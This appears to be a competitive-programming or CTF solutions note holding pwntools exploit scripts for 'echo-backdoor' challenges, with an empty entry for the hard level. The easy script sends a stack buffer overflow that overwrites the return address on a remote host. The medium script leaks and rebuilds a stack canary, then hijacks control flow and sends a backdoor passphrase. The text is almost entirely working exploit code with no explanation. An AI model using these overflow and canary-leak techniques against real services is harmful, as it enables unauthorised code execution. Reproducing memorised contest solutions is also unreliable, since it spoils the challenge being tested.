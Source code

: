 -------------------------echo-backdoor-easy-------------------------

from pwn import *  
  
  
conn = remote("95.164.38.230", 33000)  
conn.sendline(b"1" * 40 + p64(0x401166))  
  
conn.interactive()




-------------------------echo-backdoor-medium-------------------------

from pwn import *  
  
conn = remote("95.164.38.230", 33001)  
  
conn.sendline(b'a' * 40)  
print(conn.recv(40))  
conn.sendline(b'a')  
print(conn.recvline())  
canary = int(conn.recvline()[:-3][::-1].hex(), 16) << 8  
conn.sendline(b'a' * 40 + p64(canary) + b'a' * 8 + p64(0x401176))  
conn.sendline(b'pl34s3_tr1gg3r_b4ckd00r')  
  
conn.interactive()


-------------------------echo-backdoor-hard-------------------------





[[Контесты]]